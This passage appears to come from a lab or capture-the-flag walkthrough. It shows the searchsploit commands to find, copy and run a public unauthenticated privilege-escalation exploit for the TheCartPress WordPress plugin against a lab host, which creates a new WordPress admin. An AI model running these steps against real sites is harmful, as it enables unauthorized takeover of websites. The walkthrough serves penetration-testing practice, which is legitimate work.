




4.5 Search exploit
1. Look for an “TheCartPress” exploit.
$ searchsploit TheCartPress
Output:

Use the “TheCartPress 1.5.3.6 - Privilege Escalation (Unauthenticated)”.
2. Copy the “php/webapps/50378.py” file to your Kali Linux directory.
$ searchsploit -m php/webapps/50378.py
Output:

3. Rename the file to “exploit.py”.
$ mv 50378.py exploit.py
4. Run the exploit on your Kali Machine.
$ python exploit.py http://itzhak.perlman.hmv/
Output:

The exploit has created a new admin in Wordpress with the following credentials.
